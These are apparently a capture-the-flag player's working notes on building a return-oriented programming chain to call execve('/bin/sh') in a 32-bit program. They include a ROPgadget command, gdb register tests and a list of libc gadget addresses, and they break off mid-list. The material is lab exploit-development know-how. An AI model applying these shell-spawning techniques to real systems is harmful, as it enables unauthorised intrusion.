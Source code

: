 I think the direction of the challenge is to ROP chain.
```text
ROPgadget --binary libc-2.15.so --offset 0x5555e000 --badbytes "00-1f|80-ff"
```
If I could get a chain that preps the stack / registers to `execve` then it would be nice.
1. find an `execve` call that has a valid address. 
	* `0x5561676a` inside `execv`
	* `0x5561695c` inside `execl`
	* `0x55636b6c` inside `bash_command`   		
2. find a chain that adds up numbers to sum to `0x556bb7ec`.  (or if I would write `/bin/sh\0`) to a valid memory

Let's not make up stuff, what's on the internet?
[ret2syscall](https://www.ctfnote.com/pwn/linux-exploitation/rop/ret2syscall)

[`rop syscall execv`](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv)

now in theory the only thing I have to do is to set 
`edi` = &`/bin/sh`
`esi` = 0
`ecx` = 0
let's check the theory in `gdb`

```python
In [16]: 0x55636b6c.to_bytes(4, 'little')
Out[16]: b'lkcU'
```
```text
set $edi = 0x556bb7ec
set $esi = 0
set $ecx = 0
```
worked :)

1. `mov esi, [address_i_control]` and to `ecx`
2. I need to write `/bin` and `//sh` to a zeroed memory 
3. `pop edi`  

`argv[1]` should look like this `[padding][Gadget]...[Gadget]...[execve]`

the gadgets should
1. 
## Gadgets

```
use this twice to write /bin//sh (the location in memory must be zeroed)
0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
0x55687b3c : mov dword ptr [edx], edi ; pop esi ; pop edi ; ret


setting esi and ecx
0x556a643b : mov edi, 0 ; lea eax, [ecx + 2] ; ret
```

```text
change edx and edi:
0x555f3555 : pop edx ; xor eax, eax ; pop edi ; ret
change eax:
pop eax ; cmp eax, 0xfffff001 ; jae 0xb8239 ; ret
0x556a6a7f : nop ; mov eax, edx ; ret
change ecx:
pop ecx ; add al, 0xa ; ret
change esi:
0x555c6526 : xor edi, edi ; pop ebx ; mov eax, edi ; pop esi ; pop edi ; pop ebp ; ret
0x55687b3c mov dword ptr [edx], edi ; pop esi ; pop edi ; ret
```
